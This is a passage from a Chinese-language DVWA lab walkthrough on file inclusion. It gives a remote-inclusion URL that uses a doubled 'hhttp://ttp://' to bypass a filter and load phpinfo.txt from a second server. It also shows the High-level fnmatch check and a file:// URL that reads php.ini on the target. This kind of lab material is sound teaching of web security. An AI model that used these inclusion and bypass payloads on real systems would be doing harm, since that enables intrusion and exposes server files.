 **远程文件包含**

`http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=hhttp://ttp://<服务器B IP地址!!!>/phpinfo.txt` 远程执行命令成功

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/dvwa/dvwa22.png)

经过编码后的 url 不能绕过替换规则,因为解码是在浏览器端完成的,发送过去的 page 参数依然是http://<IP地址!!!>/phpinfo.txt,因此读取失败.

### High

**服务器端核心代码**
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
	// This isn't the page we want!
	echo "ERROR: File not found!";
	exit;
}

?>
```
可以看到,High 级别的代码使用了 fnmatch 函数检查 page 参数,要求 page 参数的开头必须是 file,服务器才会去包含相应的文件.

**相关函数**
- **fnmatch(pattern,string,flags)**

	函数根据指定的模式来匹配文件名或字符串.

	此函数对于文件名尤其有用,但也可以用于普通的字符串.普通用户可能习惯于 shell 模式或者至少其中最简单的形式 '?' 和 '*' 通配符,因此使用 fnmatch() 来代替 ereg() 或者 preg_match() 来进行前端搜索表达式输入对于非程序员用户更加方便.

注:fnmatch 函数适用于 PHP >= 4.3.0,因此 php 版本高于这个才能利用,否则会出现打不开 high 等级页面.

**漏洞利用**

High 级别的代码规定只能包含 file 开头的文件,看似安全,不幸的是我们依然可以利用 file 协议绕过防护策略.file 协议其实我们并不陌生,当我们用浏览器打开一个本地文件时,用的就是 file 协议.

构造 url `http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=file://C:/phpStudy/PHPTutorial/WWW/DVWA/php.ini`
